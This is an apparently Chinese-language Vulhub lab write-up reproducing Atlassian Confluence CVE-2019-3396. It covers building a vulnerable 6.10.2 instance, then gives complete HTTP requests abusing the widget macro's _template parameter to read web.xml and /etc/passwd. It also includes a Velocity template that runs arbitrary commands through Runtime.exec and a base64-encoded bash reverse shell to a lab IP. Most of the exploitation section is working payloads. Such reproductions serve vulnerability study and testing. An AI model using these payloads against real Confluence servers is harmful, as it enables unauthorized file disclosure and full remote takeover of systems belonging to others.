 # Atlassian Confluence 路径穿越与命令执行漏洞 CVE-2019-3396

## 漏洞描述

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

参考资料：

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## 环境搭建

Vulhub执行如下命令启动一个Confluence Server 6.10.2：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8090`会进入安装引导，选择“Trial installation”，之后会要求填写license key。点击“Get an evaluation license”，去Atlassian官方申请一个Confluence Server的测试证书：

![image-20220221212552097](images/202202212125230.png)

然后点击Next安装即可。这一步小内存VPS可能安装失败或时间较长（建议使用4G内存以上的机器进行安装与测试），请耐心等待。

如果提示填写cluster node，路径填写`/home/confluence`即可：

![image-20220221212055528](images/202202212120637.png)

后续可能要求你填写数据库账号密码，选择postgres数据库，地址为`db`，账号密码均为`postgres`：

![image-20220221212256534](images/202202212122657.png)

配置系统管理员账户 Configure User Management / Configure System Administrator Account

![image-20220221220412118](images/202202212204338.png)

安装完成之后，新建一个话题，然后，选择其他宏→小工具连接器

![image-20220221221038964](images/202202212210096.png)

## 漏洞复现

### 读取文件web.xml

点击插入，抓包并修改，发送如下数据包，即可读取文件`web.xml`：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.174.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```

![image-20220221220956744](images/202202212209903.png)

### 读取/etc/passwd

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

![image-20220221222031476](images/202202212220650.png)

### 远程代码执行

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令

修改请求中_template参数的值，可以包含远程文件，支持https协议，http目前无法利用

使用python3开启一个简单的ftp服务器

```
python3 -m pip install pyftpdlib
python3 -m pyftpdlib -p 8888
```

在/home/kali目录下添加confluence.vm文件，内容为

```
#set ($exp="exp")
#set ($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))
#set ($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $exp.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
    $scan.next()
#end
```

修改_template参数的值为ftp://localhost:8888/confluence.vm并在其后加入command值，设置为id

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.174.128:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"http://192.168.174.128:8888/confluence.vm","command":"id"}}}
```

发送后成功执行命令

![image-20220221223857118](images/202202212238258.png)

### 反弹shell

使用base64编码来绕过java的机制

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}
```

发送数据包，将command值换为base64的payload

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 192.168.174.128:8090
Content-Length: 308
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://192.168.174.128:8090
Referer: http://192.168.174.128:8090/pages/createpage.action?useDraft=true&spaceKey=TEST&draftId=98362&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

{"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"ftp://192.168.174.128:8888/confluence.vm","command":"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"}}}
```

发送后成功反弹shell

![image-20220221224340304](images/202202212243371.png)

